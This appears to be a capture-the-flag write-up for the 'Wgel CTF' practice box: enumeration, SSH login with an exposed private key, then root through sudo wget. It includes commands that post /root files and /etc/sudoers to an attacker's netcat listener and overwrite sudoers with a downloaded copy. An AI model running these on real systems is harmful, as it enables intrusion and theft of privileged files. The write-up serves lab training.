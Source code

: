 ```yaml
---
layout: post
permalink: /posts/thm/wgel-ctf
title: "Wgel CTF"
---
```


Have fun with this easy box.

Let's begin our enumeration with nmap.

```
nmap -sC -sV <IP>
```

![nmap](/assets/images/thm/wgel-ctf/nmap.png)

As we can see there are two open ports 22 SSH and 80 HTTP. Go and visit the website.

![website](/assets/images/thm/wgel-ctf/website.png)

It's Apache default page. Let's run directory scan to find any hidden directories.

```
gobuster dir -u http://10.10.22.10 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
```

![gobuster](/assets/images/thm/wgel-ctf/gobuster-sitemap.png)

We have found `sitemap` directory. Let's visit it.

![sitemap](/assets/images/thm/wgel-ctf/sitemap.png)

I tried some additional directory search.

```
gobuster dir -u http://10.10.22.10/sitemap -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
```

![gobuster-sitemap](/assets/images/thm/wgel-ctf/gobuster-sitemap.png)

hmm this `.ssh` directory looks suspicious

![ssh](/assets/images/thm/wgel-ctf/ssh.png)

Now we have rsa key but we need username as well. Go back to the Apache default page and look the source code.

![source](/assets/images/thm/wgel-ctf/source.png)

Oh... hello Jessie

```
ssh -i id_rsa jessie@10.10.22.10
```

![jessie](/assets/images/thm/wgel-ctf/jessie.png)

We have succefully logged as jessie. Look through the jessie directory and find the user flag. <br/>

Once we find the user flag we need to escalate our privileges. Let's check what we can find with `sudo -l` command

![sudo-l](/assets/images/thm/wgel-ctf/sudo-l.png)

Our user is able to run `wget` command as root. Go and visit `https://gtfobins.github.io/gtfobins/wget/` to see how we can take and advantage of the command. <br/>

As we know the user flag is named user_flag.txt so probably root flag is named root_flag.txt which means we should be able to read the file with the following command

```
sudo wget -i /root/root_flag.txt
```

![wget-read](/assets/images/thm/wgel-ctf/wget-read.png)

I also tried to upload the file on my machine. First set listener.

```
nc -lvnp <PORT>
```

```
sudo wget --post-file=/root/root_flag.txt http://<YOUR_MACHINE>:<PORT>
```

Unfortunately both of the tries didn't work for me. Not sure why...

Another thing that we can try is to recieve `/etc/sudoers` and change the permission of our user to be able to execute any sudo commands. Using wget we'll be able to upload and replace the original file with our manipuleted one. Let's try it.

Start listener on your machine

```
nc -lvnp <PORT>
```

```
sudo wget --post-file=/etc/sudoers <YOUR_IP>:<PORT>
```

![sudoers](/assets/images/thm/wgel-ctf/sudoers.png)

Now we have the sudoers content, create sudoers file and change the jessie rights to be able to execute all sudo commands without a password.

![sudoers-change](/assets/images/thm/wgel-ctf/sudoers-change.png)

Now start python server on your machine

```
python3 -m http.server
```

On the target machine navigate to `/etc` and download the new sudoers file

```
sudo wget http://<YOUR_IP>:<PORT>/sudoers --output-document=sudoers
```

or

```
sudo wget http://<YOUR_IP>:<PORT>/sudoers -O sudoers
```

Check the rights

```
sudo -l
```

![check](/assets/images/thm/wgel-ctf/check.png)

Now we are able to run any command as root. Let's try it out.

```
sudo /bin/bash
```
![root](/assets/images/thm/wgel-ctf/root.png)
